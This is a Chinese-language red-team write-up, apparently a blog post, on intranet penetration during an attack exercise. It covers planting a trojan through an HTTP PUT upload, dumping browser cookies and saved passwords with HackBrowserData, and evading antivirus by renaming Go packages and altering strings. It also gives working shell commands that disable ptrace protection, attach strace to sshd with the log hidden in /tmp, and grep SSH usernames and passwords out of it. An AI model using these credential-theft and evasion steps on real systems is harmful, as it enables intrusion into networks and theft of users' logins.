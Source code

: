 #### 案例

晚上下班有小伙伴进入目标单位，插入网线扫描内网，发现内网办公网络存在主机弱口令，通过PUT木马使靶机A上线。在第一次尝试扫描内网后，发现没有被拦截，猜测没有检测流量，所以后面就大胆扫描内网。

## 0x04 内网渗透

做好权限维持之后进行信息收集，主要分为以下几步。

  1. 收集目标机器上安装了哪些软件、存在哪些进程，通过进程查看存在哪些杀毒软件。

  2. 使用HackBrowserData抓取浏览器的一些信息，例如浏览器历史记录、cookie、保存的账号密码（在使用过程中发现360安全浏览器是抓不到密码的）等，一般情况下能抓到系统的密码

  3. 翻文件，说不定会存在一些密码文档，例如xxx系统的密码，发现内网的一些网段。

上述说的 `HackBrowserData`工具已经被杀了，接着来说一说免杀的方法

将go引用的包名替换一下，修改特殊的字符串特征并加一个启动参数，这样基本上就不杀了

### 护网横向移动优先攻击策略

内网往往非常大，快速定位和找到关键节点是非常重要的，选择的主要原则为:

  * 快速掌握目标网络架构、网络设备及集权系统（堡垒机、运维管理机、性能监控系统、集中管控系统、域控等）

  * 查找配置文件、系统日志、建设方案、wiki（在wiki中可能会存在网络架构图）、托管代码等，获取敏感信息，为拿下核心设备打下基础。

### linux抓密码

通过外网打点拿到一个shell之后，如果需要进一步渗透，拿下这台主机的密码更是重中之重，内网渗透的本质就是信息收集，而登录凭证的收集是信息收集的重点。

#### 1.利用strace抓密码

`strace`是linux中的调试工具，可通过附加到进程来调试正在运行的进程， `strace`记录一个正在运行的程序正在执行的系统调用以及参数。

    
    
    # 查看  
    cat /proc/sys/kernel/yama/ptrace_scope  
    # 修改  
    echo 0 > /proc/sys/kernel/yama/ptrace_scope 或者 sysctl kernel.yama.ptrace_scope=0

root权限执行

    
    
    (strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)

查找用户名和密码的正则表达式为`read\(6, ".+\\0\\0\\0\\.+"`

    
    
    # 查找用户名和密码  
    grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log

![](https://gitee.com/fuli009/images/raw/master/public/20230714180501.png)
